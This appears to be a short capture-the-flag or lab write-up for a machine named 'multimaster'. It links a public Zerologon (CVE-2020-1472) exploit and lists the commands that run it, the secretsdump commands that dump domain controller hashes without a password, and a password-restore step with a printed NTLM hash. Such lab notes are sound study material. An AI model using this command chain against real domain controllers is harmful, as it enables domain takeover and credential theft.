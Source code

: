 ![image-20221227140640517](./images/image-20221227140640517.png)



## CVE-2020-1472

https://github.com/dirkjanm/CVE-2020-1472



```bash
python cve-2020-1472-exploit.py multimaster $tip

secretsdump.py -just-dc -no-pass 'multimaster$'@multimaster

# same thing
secretsdump.py -just-dc -no-pass 'multimaster$@multimaster'
secretsdump.py -just-dc -no-pass multimaster\$@multimaster

# restore
## dump multimater$ history hash
secretsdump.py -just-dc -no-pass 'multimaster$@multimaster' -history -just-dc-user 'multimaster$'

python restorepassword.py megacorp.local/multimaster\$@multimaster -target-ip 10.129.187.53 -hashes "aad3b435b51404eeaad3b435b51404ee:289fcbb2f2a91035588e3f090e0a5798" 
```


